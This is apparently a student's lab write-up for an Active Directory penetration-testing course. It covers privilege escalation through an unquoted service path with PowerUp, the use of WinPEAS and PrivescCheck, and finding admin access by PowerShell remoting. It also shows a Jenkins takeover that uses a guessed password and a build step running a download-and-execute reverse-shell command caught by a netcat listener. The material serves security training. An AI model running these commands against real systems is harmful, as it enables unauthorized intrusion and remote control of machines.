

Learning Objective 5

# **1)Exploit a service on dcorp-studentx and elevate privileges to local administrator.**

So we need to attain local admin priv at dcorp-studentx machine by exploting a service running at here.

i)using Powerup

load the power up then check for vulnerable service

command:
```  Invoke-AllChecks```

O/P:


so we found that the "AbyssWebServer" contains whitespace and it is unquoted so it is abusable and the above output also gives the abuse function.

we can get the examples of how we can use Invoke-ServiceAbuse funtion
command:

```  help Invoke-ServiceAbuse -Examples```

O/P:

here we are using example number 3 and adding the domain user student219 to the Administrators group and getting local admin priv

command:
```  Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName dcorp\student219 -Verbose```


check student user is added to Administrators group
``` net localgroup Administrators```

O/P:
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
dcorp\Domain Admins
dcorp\student219
The command completed successfully.

now logoff and login to student user then we have admin priv|

what actually happens here?the real path for the AbyssServer serice is replaced by a payload path that add the studentx user to the administrators group.

ii)same using WinPeas

command:
```C:\AD\Tools\Loader.exe -Path C:\AD\Tools\winPEASx64.exe -args notcolor log```
O/P:


iii)same using PrivescCheck

import privesccheck
```. C:\AD\Tools\PrivEscCheck.ps1```

run
```Invoke-PrivescCheck```

O/P:


# **2)identify a machine in the domain where studentx has local administrative access, use Find-PSRemotingLocalAdminAccess.ps1**

For this task we can also use WMI and Find-LocalAdminAccess
Here using powershellRemoting


now login to adminsrv


so the student user have admin access on the adminsrv server so that we are able to login it remotely

# **3)Using the privileges of a user on Jenkins on 172.16.3.11:8080,get admin privileges on 172.16.3.11-dcorp-ci server**

we know that in our lab environment a jenkins server is running on dcorp-ci machine with admin priv

so we are visiting that webpage and in the peoples page  we can find some of the users and their username,,, using that to log in the jinkins webpage as using same username as passowrd,, we got successfully logged in while using 
"username:builduser
password:builduser"


then by visiting the profile we are checking that we can configure build or we have admin access we just simply visit the "http://jenkinsserverip/script" and input script and run that to try cmd exectuion and rev shells

host the revershell on our machine using hfs


here we dont have admin priv,, so if we can configure builds then we can configure a build as "Execute Windows batch command" with including a reverse shell to the destination of ours attacking machine and dowloadin the revershell code


``` powershell.exe iex (iwr http://172.16.100.219/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.219 -Port 443```


then save....


Now start a listener on our machine
command:
``` C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443```

now click the build now and start to build,,, now while it is building we can see that revershell is getting downloaded from out host to destinaion in hfs application 

and now we got rev shell and it is with ciadmin priv
